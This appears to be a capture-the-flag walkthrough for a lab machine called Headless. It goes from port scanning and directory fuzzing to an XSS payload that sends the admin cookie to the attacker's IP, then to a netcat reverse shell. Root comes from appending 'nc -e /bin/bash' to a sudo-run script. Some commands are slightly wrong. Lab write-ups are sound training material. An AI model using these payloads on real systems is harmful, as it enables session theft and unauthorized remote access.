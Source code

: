 
# Task List

## Task 1: Highest TCP port available
- From next command: `nmap -sC -sV --min-rate 100 -vvv [IP]`

**Result:**
- Scanning 10.10.11.8 [1000 ports]
- Discovered open port 22/tcp on 10.10.11.8
- Discovered open port 5000/tcp on 10.10.11.8

## Task 2: Title of the page if the site detects an attack in the contact support form

- Log in to the web page at `IP:5000`
- Execute `<script>alert("TestMessage")</script>`

**Result:** Hacking Attempt Detected  
_Client Request Information_

## Task 3: Name of the cookie set for a logged-in user

- From the "Client Request Information," get the "Cookie" parameter

**Result:** is_admin=InVzZXIi.uAlmXlTvm8vyihjNaPDWnvB_Zfs

## Task 4: Relative URL of the page requiring authorization on Headless

- Command using FFUF: `ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://IP:5000/FUZZ`
- Explanation: `ffuf (wordlist parameter) (wordlist path) (objective parameter) (objective url)`

**Result:** 
- 10.10.11.8:5000/support
- 10.10.11.8:5000/dashboard *Response*

## EXTRA: Access to the dashboard

- Start an HTTP server with Python on port 8001: `python3 http.server 8001`
- Send a request to the /support directory with Burp Suite
- Change any label content with the XSS exploit: `<script>var i=new Image(); i.src="http://xx.xx.xx.xx:8001/?cookie="+btoa(document.cookie);</script>`, replacing `XX` with your IP.
- Use the Proxy and Repeater in Burp Suite to send multiple modified requests
- Check the server for cached data

**Result:**  
xx.xx.xx.xx - - [29/Jul/2024 14:00:56] "GET /?cookie=aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA= HTTP/1.1" 200 -

**Action:** Decrypt the cookie (Base64):  
`echo "aXNfYWRtaW49SW1Ga2JXbHVJZy5kbXpEa1pORW02Q0swb3lMMWZiTS1TblhwSDA=" | base64 -d`

**Result:** is_admin=ImFkbWluIg.dmzDkZNEm6CK0oyL1fbM-SnXpH0% 

**Action 2:** Use the decrypted cookie to access the `/dashboard`

**Result:** Access Guaranteed

## Task 5: Parameter name on POST requests to /dashboard with a vulnerability

- Identify the form type

**Result:** Date

## Task 6: Name of the user the web application is running as

- Gain access to the machine
- Hint: Use a reverse shell and `nc` with the admin cookie

**Result:**  
Access to the machine  
User: dvir  
Use `python3 -c "import pty; pty.spawn('/bin/bash')"` to spawn a shell

## Task 7: Submit USER flag

- Use `ls -la` to list files in the home directory and find `user.txt`
- Use `cat user.txt`

**Result:** Submission of the USER flag

## Task 8: Full path to the script `dvir` can run without a password

- Use the command: `sudo -l`

**Result:** `/usr/sh/syscheck`

## Task 9: Script called with a relative path by `syscheck`

- Inspect the `syscheck.sh` script

**Result:** `initdb.sh`

## Task 10: Submit the flag in the root user's home directory

- Modify `initdb.sh` to append: `nc -e /bin/bash xx.xx.xx.xx PORT`
- Open a new terminal and use `nc -lvp PORT`
- Execute the script

**Extra Hint:** Use the same process as for the user shell access

**Result:** Access to a shell as the root user  
Navigate to the root directory and use `cat root.txt`
